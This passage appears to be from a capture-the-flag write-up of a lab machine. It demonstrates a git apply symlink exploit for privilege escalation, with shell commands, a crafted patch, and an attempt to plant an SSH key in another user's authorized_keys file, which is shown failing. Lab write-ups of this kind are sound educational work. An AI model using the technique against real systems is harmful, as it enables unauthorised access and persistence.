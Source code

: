 The only change is from `create-me` to `0xdf` in two places. `git apply patch` will run it, and the new file exists:

```

cbrown@snoopy:/dev/shm/poc$ git apply patch
cbrown@snoopy:/dev/shm/poc$ cat ~/0xdf 
busted

```

#### Overwrite authorized\_keys

With `sudo`, I can do this exploit as sbrown. The first thing I’ll try is overwriting their `authorized_keys` file. I’ll start a brand new repo, this time adding a symlink pointing to sbrown’s `.ssh` folder:

```

cbrown@snoopy:/dev/shm$ mkdir ssh
cbrown@snoopy:/dev/shm$ cd ssh/
cbrown@snoopy:/dev/shm/ssh$ git init
Initialized empty Git repository in /dev/shm/ssh/.git/
cbrown@snoopy:/dev/shm/ssh$ ln -s /home/sbrown/.ssh symlink
cbrown@snoopy:/dev/shm/ssh$ git add symlink 
cbrown@snoopy:/dev/shm/ssh$ git commit -m "add symlink"
[main (root-commit) 4f69273] add symlink
 1 file changed, 1 insertion(+)
 create mode 120000 symlink

```

I’ll create a `patch` file again, this time changing `0xdf` to `authorized_keys`, and `busted` to an SSH public key:

```

diff --git a/symlink b/renamed-symlink
similarity index 100%
rename from symlink
rename to renamed-symlink
--
diff --git /dev/null b/renamed-symlink/authorized_keys
new file mode 100644
index 0000000..039727e
--- /dev/null
+++ b/renamed-symlink/authorized_keys
@@ -0,0 +1,1 @@
+ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing

```

When I run this, it fails:

```

cbrown@snoopy:/dev/shm/ssh$ sudo -u sbrown git apply -v patch
[sudo] password for cbrown: 
warning: unable to unlink 'symlink': Permission denied
error: unable to write file 'renamed-symlink' mode 120000: No such file or directory

```
